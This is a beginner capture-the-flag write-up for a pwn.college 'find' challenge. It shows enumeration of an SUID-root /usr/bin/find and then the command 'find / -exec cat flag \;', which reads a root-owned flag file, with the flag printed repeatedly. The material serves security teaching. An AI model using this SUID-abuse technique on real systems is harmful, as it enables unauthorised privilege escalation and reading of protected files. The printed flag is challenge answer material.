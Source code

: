 # Challenge Name: find
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/find`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/find
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/find
```

-The `s` in `-rws` indicates it's a SUID binary.
-`find` runs with **root privileges**.

## 🚀 Exploitation

The `find` command in Linux is used to search for files and directories in a directory hierarchy based on name, size, type, time, permissions, and many other filters — and optionally run commands on them.

Thus we can simply run commnds for a file using find just like `env`.

```bash
find / -exec cat flag \;
```

Output:
```
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
pwn.college{MdG7ObAboj4LhSlCpd_R5KIgJEK.ddjNxwSM0IzMyEzW}
```


